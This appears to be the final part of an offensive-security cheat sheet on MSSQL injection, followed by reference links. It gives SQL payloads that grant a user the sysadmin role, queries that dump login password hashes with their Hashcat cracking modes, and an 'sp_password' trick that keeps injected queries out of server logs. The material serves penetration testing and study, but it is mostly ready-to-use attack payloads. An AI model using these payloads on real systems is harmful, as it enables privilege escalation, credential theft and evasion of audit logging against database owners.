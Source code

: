 ### MSSQL Make User DBA

```sql
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
```

## MSSQL Database Credentials

* **MSSQL 2000**: Hashcat mode 131: `0x01002702560500000000000000000000000000000000000000008db43dd9b1972a636ad0c7d4b8c515cb8ce46578`

    ```sql
    SELECT name, password FROM master..sysxlogins
    SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins 
    -- Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer
    ```

* **MSSQL 2005**: Hashcat mode 132: `0x010018102152f8f28c8499d8ef263c53f8be369d799f931b2fbe`

    ```sql
    SELECT name, password_hash FROM master.sys.sql_logins
    SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
    ```

## MSSQL OPSEC

Use `SP_PASSWORD` in a query to hide from the logs like : `' AND 1=1--sp_password`

```sql
-- 'sp_password' was found in the text of this event.
-- The text has been replaced with this comment for security reasons.
```

## References

* [AWS WAF Clients Left Vulnerable to SQL Injection Due to Unorthodox MSSQL Design Choice - Marc Olivier Bergeron - June 21, 2023](https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/)
* [Error based SQL Injection in "Order By" clause - Manish Kishan Tanwar - March 26, 2018](https://github.com/incredibleindishell/exploit-code-by-me/blob/master/MSSQL%20Error-Based%20SQL%20Injection%20Order%20by%20clause/Error%20based%20SQL%20Injection%20in%20“Order%20By”%20clause%20(MSSQL).pdf)
* [Full MSSQL Injection PWNage - ZeQ3uL && JabAv0C - January 28, 2009](https://www.exploit-db.com/papers/12975)
* [IS_SRVROLEMEMBER (Transact-SQL) - Microsoft - April 9, 2024](https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?view=sql-server-ver15)
* [MSSQL Injection Cheat Sheet - @pentestmonkey - August 30, 2011](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [MSSQL Trusted Links - HackTricks - September 15, 2024](https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links)
* [SQL Server - Link… Link… Link… and Shell: How to Hack Database Links in SQL Server! - Antti Rantasaari - June 6, 2013](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/)
* [sys.fn_my_permissions (Transact-SQL) - Microsoft - January 25, 2024](https://docs.microsoft.com/en-us/sql/relational-databases/system-functions/sys-fn-my-permissions-transact-sql?view=sql-server-ver15)
